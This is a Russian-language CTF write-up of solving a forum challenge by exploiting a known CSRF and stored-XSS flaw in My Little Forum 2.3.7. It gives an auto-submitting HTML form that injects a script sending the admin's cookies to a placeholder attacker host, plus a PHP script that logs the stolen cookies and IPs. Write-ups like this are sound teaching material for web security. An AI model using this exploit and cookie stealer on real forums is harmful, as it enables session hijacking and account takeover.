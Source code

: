 ﻿# Форум для всех

Веб-сайт:
![Site](/img/4.png)

1. Заходим на форум. Видим, что уже многие пробовали XSS и т.д. Имеем достаточно много инпутов: куки 4 штуки, различные формы и GET запросы. Заставлять участников првоерять их все - очень жестоко.
2. Внизу страницы видим `powered by My Little Forum 2.3.7` Значит это какой-то сторонний движок.
3. Идем в гугл. Вбиваем My Little Forum 2.3.7. Видим, что это уязвимая версия. Переходим к примеру на этот сайт https://www.exploit-db.com/exploits/40676/
4. Читаем про уязвимости. Пробуем первую.
6. Для CSRF и XSS копируем форму с сайта и делаем так, чтобы при переходе на нее автоматически отправляла POST запрос на указанный адрес:
````html
<form action="http://10.0.38.133:61937/index.php?mode=admin&action=edit_page" method="post" accept-charset="utf-8">
<input type="hidden" name="mode" value="admin">
<input type="hidden" name="title" value="Stored XSS 
<script>alert(1)</script>">
<input type="hidden" name="content" value="Stored XSS 
<script>alert(2)</script>">
<input type="hidden" name="menu_linkname" value="<script>var img=new Image();img.src='https://your_site/index.php?'+ encodeURI(document.cookie);</script>">
<input type="hidden" name="edit_page_submit" value="1">
<input type="submit" name="edit_page_submit" value="OK - Save page">
</form>
<body onload="document.forms[0].submit()">
````
PHP код:
````php
<?php
$text = urldecode($_SERVER['QUERY_STRING']);

if (!empty($_SERVER['HTTP_CLIENT_IP'])) 
{
	$ip=$_SERVER['HTTP_CLIENT_IP'];
}
elseif (!empty($_SERVER['HTTP_X_FORWARDED_FOR']))
{
	$ip=$_SERVER['HTTP_X_FORWARDED_FOR'];
}
else
{
	$ip=$_SERVER['REMOTE_ADDR'];
}
$file=fopen("file.txt", "a");
fwrite ($file, $text.PHP_EOL);
fwrite ($file, $ip.PHP_EOL);
fwrite ($file, $_SERVER['HTTP_REFERER'].PHP_EOL);
fclose($file);
?>
````

7. В одно из полей пишем свой XSS, чтобы ловить куки. Нпаример, в поле menu_linkname.
8. Пишем на форуме пост со своей ссылкой.
9. Получаем куку с flag.
